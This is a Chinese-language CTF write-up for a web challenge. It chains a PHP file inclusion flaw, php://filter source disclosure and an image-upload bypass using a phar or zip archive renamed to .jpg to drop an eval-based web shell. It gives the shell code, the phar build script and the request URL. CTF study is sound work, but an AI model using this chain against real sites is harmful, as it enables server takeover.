 # web200-6 WriteUp 

include.php 存在文件包含漏洞 

可以使用 include.php?file=php://filter/read=convert.base64-encode/resource=upload  来读取源码.

但是 include.php 限制了后缀只能是 .php,这里还不能截断 

再看upload.php,限制了只能上传图片

这里唯一可用的就是  phar://这个协议了  

这个协议到底怎么用参看这里:

[https://segmentfault.com/a/1190000002166235](https://segmentfault.com/a/1190000002166235)
[http://www.mamicode.com/info-detail-888559.html](http://www.mamicode.com/info-detail-888559.html)

##  方法一

来新建一个目录,名字为blog,下面放一个index.php,里面是一个写shell的php代码

```php
<?php  file_put_contents('shell.php','<?php eval($_POST[1])?>'); ?>
``` 

在blog目录外创建一个打包的文件,build.php,代码如下:

```php
<?php 

if(class_exists('Phar')){

     $phar = new Phar('blog.phar',0,'blog.phar');

     $phar ->buildFromDirectory(__DIR__.'/blog');

     $phar->setStub($phar->createDefaultStub('index.php'));
     $phar-> compressFiles(Phar::GZ);
}
```

运行build.php,就会创建一个blog.phar, 然后把后缀名修改为  blog.jpg,然后上传:

然后访问:

```
/include.php?file=phar://upload/blog.jpg/index
```

就会在跟目录下生成一个shell.php,注意.. 不是upload目录下 

## 方法二 

直接把index.php  zip压缩为 blog.zip ,然后改名字为 blog.jpg,
上传之后,用同样的方法,也可以getshell 
